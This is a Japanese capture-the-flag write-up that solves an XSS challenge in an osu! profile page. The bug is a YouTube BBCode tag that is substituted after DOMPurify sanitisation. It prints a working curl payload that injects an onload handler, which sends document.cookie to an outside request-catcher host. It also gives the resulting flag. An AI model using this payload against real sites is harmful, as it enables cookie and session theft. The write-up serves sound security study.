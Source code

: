 # profile-page:web:114pts
customize your osu! profile page!  
[https://profile-page.web.osugaming.lol/](https://profile-page.web.osugaming.lol/)  
[https://adminbot.web.osugaming.lol/profile-page](https://adminbot.web.osugaming.lol/profile-page)  

[profile-page.zip](profile-page.zip)  

# Solution
サイトとAdminBotが与えられる。  
XSS問題のようだ。  
サイトにアクセスし、ユーザ登録を行いログインするとプロフィールを設定できるようだ。  
![site.png](site/site.png)  
ソースの主要部分は以下のようであった。  
```js
~~~
const window = new JSDOM('').window;
const purify = DOMPurify(window);
const renderBBCode = (data) => {
    data = data.replaceAll(/\[b\](.+?)\[\/b\]/g, '<strong>$1</strong>');
    data = data.replaceAll(/\[i\](.+?)\[\/i\]/g, '<i>$1</i>');
    data = data.replaceAll(/\[u\](.+?)\[\/u\]/g, '<u>$1</u>');
    data = data.replaceAll(/\[strike\](.+?)\[\/strike\]/g, '<strike>$1</strike>');
    data = data.replaceAll(/\[color=#([0-9a-f]{6})\](.+?)\[\/color\]/g, '<span style="color: #$1">$2</span>');
    data = data.replaceAll(/\[size=(\d+)\](.+?)\[\/size\]/g, '<span style="font-size: $1px">$2</span>');
    data = data.replaceAll(/\[url=(.+?)\](.+?)\[\/url\]/g, '<a href="$1">$2</a>');
    data = data.replaceAll(/\[img\](.+?)\[\/img\]/g, '<img src="$1" />');
    return data;
};
const renderBio = (data) => {
    const html = renderBBCode(data);
    const sanitized = purify.sanitize(html);
    // do this after sanitization because otherwise iframe will be removed
    return sanitized.replaceAll(
        /\[youtube\](.+?)\[\/youtube\]/g,
        '<iframe sandbox="allow-scripts" width="640px" height="480px" src="https://www.youtube.com/embed/$1" frameborder="0" allowfullscreen></iframe>'
    );
};

~~~

// TODO: update bio from UI
app.post("/api/update", requiresLogin, (req, res) => {
    const { bio } = req.body;

    if (!bio || typeof bio !== "string") {
        return res.end("missing bio");
    }

    if (!req.headers.csrf) {
        return res.end("missing csrf token");
    }

    if (req.headers.csrf !== req.cookies.csrf) {
        return res.end("invalid csrf token");
    }

    if (bio.length > 2048) {
        return res.end("bio too long");
    }

    req.user.bio = renderBio(bio);
    res.send(`Bio updated!`);
});
~~~
```
`/api/update`でbioを更新できるようだ。  
`[img]URL[/img]`のようなタグも利用でき、`<img src="URL" />`に置換される。  
ただし、DOMPurifyで危険なタグを排除しているためonerror芸などは難しい。  
ここで、`[youtube]ID[/youtube]`タグがDOMPurifyのサニタイズ後に置換されていることに気づく。  
IDの箇所は検証されておらずそのまま置換されるため、`" onload=`などとやれば、JavaScriptが実行できそうだ。  
AdminBotのソースであるadminbot_test.jsをみると、cookieにフラグがあることがわかる。  
以下のようにbioを更新する(csrfのトークンなどに注意)。  
```bash
$ curl -X POST 'https://profile-page.web.osugaming.lol/api/update' -H 'Cookie: connect.sid=s%3AnN19WVkNYEw83yS_CDqoTiZJmV8bkIwn.5ebU%2FW3T5KF4RcEJoiL48g8Ip7g2%2BPbdk1MxA8SarPI' -H 'Cookie: csrf=1b1543696a66ce57ca524f183b753982a26960713d6bc738a995dd22498c63a4' -H 'csrf: 1b1543696a66ce57ca524f183b753982a26960713d6bc738a995dd22498c63a4' -d 'bio=[youtube]" onload="location.href=%27https://enhwn20a9uv6.x.pipedream.net/?s=%27%2Bdocument.cookie[/youtube]"'
Bio updated!
```
次にXSSペイロードが設定された`https://profile-page.web.osugaming.lol/profile/satoki00`をAdminBotへ送信してやる。  
すると以下のようなリクエストが届く。  
```
GET
/?s=flag=osu{but_all_i_w4nted_to_do_was_w4tch_y0utube...}
```
flagが得られた。  

## osu{but_all_i_w4nted_to_do_was_w4tch_y0utube...}